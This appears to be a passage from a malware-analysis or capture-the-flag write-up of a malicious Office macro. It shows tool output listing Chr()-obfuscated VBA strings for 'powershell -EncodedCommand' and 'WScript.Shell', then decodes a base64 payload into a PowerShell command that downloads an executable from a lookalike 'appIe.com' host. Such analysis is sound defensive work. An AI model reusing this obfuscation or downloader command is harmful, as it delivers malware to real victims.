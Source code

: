 ```python
|          |AGUAYgByAGUAcQB1AGUA|Chr(65) & Chr(72) & Chr(89) & Chr(65) &      |
|          |cwB0ACAALQBVAHIAaQAg|Chr(98) & Chr(119) & Chr(66) & Chr(114) &    |
|          |ACcAaAB0AHQAcAA6AC8A|Chr(65) & Chr(71) & Chr(85) & Chr(65) &      |
|          |LwBhAHAAcABJAGUALgBj|Chr(76) & Chr(81) & Chr(66) & Chr(51) &      |
|          |AG8AbQAvAEkAcABoAG8A|Chr(65) & Chr(71) & Chr(85) & Chr(65) &      |
|          |bgBlAC4AZQB4AGUAJwAg|Chr(89) & Chr(103) & Chr(66) & Chr(121) &    |
|          |AC0ATwB1AHQARgBpAGwA|Chr(65) & Chr(71) & Chr(85) & Chr(65) &      |
|          |ZQAgACcAQwA6AFwAVABl|Chr(99) & Chr(81) & Chr(66) & Chr(49) &      |
|          |AG0AcABcAEkAUABoAG8A|Chr(65) & Chr(71) & Chr(85) & Chr(65) &      |
|          |bgBlAC4AZQB4AGUAJwAg|Chr(99) & Chr(119) & Chr(66) & Chr(48) &     |
|          |AC0AVQBzAGUARABlAGYA|Chr(65) & Chr(67) & Chr(65) & Chr(65) &      |
|          |YQB1AGwAdABDAHIAZQBk|Chr(76) & Chr(81) & Chr(66) & Chr(86) &      |
|          |AGUAbgB0AGkAYQBsAHMA|Chr(65) & Chr(72) & Chr(73) & Chr(65) &      |
|          |                    |Chr(97) & Chr(81) & Chr(65) & Chr(103) &     |
|          |                    |Chr(71) & Chr(107) & Chr(65) &               |
|          |                    |Chr(89) & Chr(81) & Chr(66) & Chr(115) &     |
|          |                    |Chr(65) & Chr(72) & Chr(77) & Chr(65)        |
|VBA string|powershell          |Chr(112) & Chr(111) & Chr(119) & Chr(101) &  |
|          |-EncodedCommand     |Chr(114) & Chr(115) & Chr(104) & Chr(101) &  |
|          |                    |Chr(108) & Chr(108) & Chr(32) & Chr(45) &    |
|          |                    |Chr(69) & Chr(110) & Chr(99) & Chr(111) &    |
|          |                    |Chr(100) & Chr(101) & Chr(100) & Chr(67) &   |
|          |                    |Chr(111) & Chr(109) & Chr(109) & Chr(97) &   |
|          |                    |Chr(110) & Chr(100)                          |
|VBA string|WScript.Shell       |(Chr(87) & Chr(83) & Chr(99) & Chr(114) &    |
|          |                    |Chr(105) & Chr(112) & Chr(116) & Chr(46) &   |
|          |                    |Chr(83) & Chr(104) & Chr(101) & Chr(108) &   |
|          |                    |Chr(108))                                    |
+----------+--------------------+---------------------------------------------+

```

From the output we can see that it executed `powershell` . VBA Obfuscated strings are also detected which is probably the command that was run in `powershell`. The string looks like `base64` so lets decode it.

```python
Base64_String = "aQBuAHYAbwBrAGUALQB3AGUAYgByAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACcAaAB0AHQAcAA6AC8ALwBhAHAAcABJAGUALgBjAG8AbQAvAEkAcABoAG8AbgBlAC4AZQB4AGUAJwAgAC0ATwB1AHQARgBpAGwAZQAgACcAQwA6AFwAVABlAG0AcABcAEkAUABoAG8AbgBlAC4AZQB4AGUAJwAgAC0AVQBzAGUARABlAGYAYQB1AGwAdABDAHIAZQBkAGUAbgB0AGkAYQBsAHMA"
```

Decoding it we get to see the command that was run

```python
┌──(kali㉿kali)-[~]
└─$ echo "aQBuAHYAbwBrAGUALQB3AGUAYgByAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACcAaAB0AHQAcAA6AC8ALwBhAHAAcABJAGUALgBjAG8AbQAvAEkAcABoAG8AbgBlAC4AZQB4AGUAJwAgAC0ATwB1AHQARgBpAGwAZQAgACcAQwA6AFwAVABlAG0AcABcAEkAUABoAG8AbgBlAC4AZQB4AGUAJwAgAC0AVQBzAGUARABlAGYAYQB1AGwAdABDAHIAZQBkAGUAbgB0AGkAYQBsAHMA" | base64 -d | iconv -f UTF-16LE -t UTF-8

invoke-webrequest -Uri 'http://appIe.com/Iphone.exe' -OutFile 'C:\Temp\IPhone.exe' -UseDefaultCredentials    
```
